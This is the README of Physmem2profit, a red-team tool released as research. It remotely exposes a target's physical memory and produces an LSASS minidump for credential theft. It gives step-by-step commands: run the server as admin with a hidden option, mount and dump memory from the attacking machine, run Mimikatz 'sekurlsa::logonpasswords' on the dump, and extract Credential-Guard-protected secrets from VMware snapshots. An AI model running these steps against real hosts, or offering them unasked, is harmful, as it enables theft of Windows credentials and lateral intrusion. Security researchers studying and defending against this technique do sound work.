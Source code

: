 # Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:

![Overview of Physmem2profit](docs/physmemlayout.png)

The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## Credential Guard

Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.

### Setting up a virtual machine for testing

1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Enable encryption for the virtual machine (required for adding a TPM).
    * You cannot enable encryption for a VM that has linked clones
1. Add a Trusted Platform Module (TPM) to the VM
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`

### Testing

1. Login to the virtual machine (with a domain account)
1. Take a snapshot
1. Power off the virtual machine
1. Remove the Trusted Platform Module (required for disabling the encryption)
1. Disable encryption for the VM (otherwise the .vmem file stays encrypted)
1. Copy the .vmem file and the .vmsn file. Copy/rename the .vmsn file to .vmss, otherwise Rekall will not be able to parse the .vmem correctly
1. ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

### Future work

The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).

## More Information

[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release
